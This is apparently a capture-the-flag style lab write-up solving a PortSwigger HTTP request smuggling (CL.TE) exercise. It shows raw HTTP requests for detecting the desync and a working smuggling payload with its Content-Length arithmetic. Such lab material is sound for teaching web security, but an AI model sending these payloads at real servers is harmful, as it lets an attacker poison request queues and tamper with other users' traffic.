





# HTTP request smuggling, basic CL.TE vulnerability
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. \
The front-end server rejects requests that aren't using the GET or POST method.\
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Analysis
### Determinig what the front-end is using
If front-end uses `Content-Length` header it should wait for all the bytes defined in `Content-Length` header. In the example below, the response from the server (time-out) indicates that front-end must be using `Content-Length` header and back-end must be using `Transfer-Encoding` header. Last byte (`X`) was striped by front-end. Then the back-end tried to wait for the termination of the chunked request causing time-out which indicates that it is using `Transfer-Encoding` header. 
```
POST / HTTP/1.1
Host: 0ae4008c038733a4818bfc6b008000fb.web-security-academy.net
Cookie: session=QjDwerZivMfuqUNKOCyKs5bDPlaUt4Vx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X
```

||
|:--:| 
| *Time-out - Front-end is using Content Length header* |
| *Time-out - Back-end is using Transfer Encoding header* |


### Conmfirming that the back-end is using Transfer Encoding
In this case if back-end uses `Transfer-Encoding` header it should treat everything after `0` as new request.
```
POST / HTTP/1.1
Host: 0ae4008c038733a4818bfc6b008000fb.web-security-academy.net
Cookie: session=QjDwerZivMfuqUNKOCyKs5bDPlaUt4Vx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

||
|:--:| 
| *Unrecognized method XPOST - Back-end is using Transfer Encoding header* |

## Exploitation
Payload:
```
POST / HTTP/1.1
Host: 0a5700f504b0a82a838c425c00b800fe.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

The `Content-Length: 6` value:
```
0\r\n       +3
\r\n        +2
G           +1
```

||
|:--:| 
| *First request - poisoning* |
||
| *Second request - request was smuggled* |
||
| *Second request with visible signs "\r" and "\n"* |